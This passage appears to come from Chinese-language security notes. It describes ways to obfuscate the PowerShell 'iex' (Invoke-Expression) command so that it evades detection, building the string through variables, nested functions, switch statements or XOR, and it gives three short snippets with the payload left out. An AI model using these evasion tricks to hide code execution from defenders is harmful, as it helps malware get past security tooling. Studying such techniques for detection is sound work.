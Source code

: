 ![image-20220124172711427](images/image-20220124172711427.png)

反正就要指定字符，那就通过

- 变量传递过去
- 也可以通过函数嵌套子函数return结果传递过去
- switch case
- if if 嵌套
- 两个字符xor
- 等等

方法很多上面的方法可以结合一起使用，很好绕过。

简单写几个

```java
$x='i'
$y='e'
& ( $x +$y+'X')(( ......
```



```java
function x()
{
    function y(){
        return 'i'+'e'
    }
    return y
}
#x
& (x+'X')(( ......
```



```java
function z([int]$zz){

    switch($zz){

        1 {return 'i'+'e'}
        Default {return 0} 

    }
}
#z(1)
& (z(1)+'X')(( ......
```
